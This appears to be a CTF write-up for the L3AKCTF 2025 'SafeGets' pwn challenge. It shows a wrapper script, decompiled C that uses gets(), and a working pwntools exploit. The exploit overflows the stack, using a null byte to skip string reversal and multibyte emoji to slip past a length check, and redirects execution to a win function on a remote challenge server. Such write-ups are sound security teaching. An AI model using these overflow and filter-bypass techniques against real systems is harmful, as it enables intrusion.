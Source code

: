 +++
author = "Velobobo"
title = "L3AKCTF 2025 - SafeGets"
date = "2025-07-12"
description = ""
draft = false
slug = "l3ak-2025-safegets"
ctfs = ["L3AKCTF-2025"]
tags = [
    "bof",
    "ctf"
]
categories = [
    "pwn"
]

+++

# SafeGets – l3akCTF 2025

## Overview  
The original binary was rather simple using `gets()` to read data into buffer and then printing the reversed string of buffer via puts , it had a win  function too. it had no canary , no pie , nx on . so it was clear what we needed to do . but there was a wrapper.py which was first checking if our input is less than 255 bytes and then only executing the binary with out input.



## Code & wrapper.py  

wrapper.py
```python
import subprocess
import sys
 
BINARY = "./chall"
MAX_LEN = 0xff
 
# Get input from user
payload = input(f"Enter your input (max {MAX_LEN} bytes): ")
if len(payload) > MAX_LEN:
    print("[-] Input too long!")
    sys.exit(1)
 
# Start the binary with pipes
proc = subprocess.Popen(
    [BINARY],
    stdin=subprocess.PIPE,
    stdout=sys.stdout,
    stderr=subprocess.PIPE
)
```

code
```c
undefined8 main(void)
 
{
  size_t sVar1;
  char buffer [259];
  char local_15;
  int local_14;
  ulong i;
 
  gets(buffer);
  sVar1 = strlen(buffer);
  local_14 = (int)sVar1;
  for (i = 0; i < (ulong)(long)(local_14 / 2); i = i + 1) {
    local_15 = buffer[(long)(local_14 + -1) - i];
    buffer[(long)(local_14 + -1) - i] = buffer[i];
    buffer[i] = local_15;
  }
  puts("Reversed string:");
  puts(buffer);
  return 0;
}
```

## Exploitation Plan  
If we don't consider wrapper.py then it was just buffer overflow and overwriting the return address to the win function. And also to bypass the reversing of our payload we can just add a null byte in front of our payload as strlen just checks the input till null byte and with this the reversing will not happen as it will think the len is 0 , and this input is also read with `read()` so it will continue to read even if it encounters a null byte. But the offset to the return address was more than 255 bytes , so wee somehow had to bypass wrapper.py  
so after a bit of searching i found out python's len treats emojis, Chinese characters etc which are in utf-8 encoding as 1 but in actual bytes they can reach many bytes.

{{< figure src="emoji.png" alt="emoji-bytes" width="500" >}}
 
so i just had to use a emoji as a garbage value to fill up the stack instead of normal characters , that would bypass the len check


## Exploit script  

```python
from pwn import *
 
binary='./chall'
elf = context.binary = ELF(binary, checksec=False)
 
#p=process(binary)
p=remote("34.45.81.67",16002)
p.recvuntil(b't (max 255 bytes):')
#gdb.attach(p)
payload=b'\x00'+("💀"*69).encode("utf-8") +b'AAA'+p64(0x40101a)+p64(0x401262)
p.sendline(payload)
 
p.interactive()
```

## Result  
{{< figure src="flag.png" alt="flag" width="500" >}}
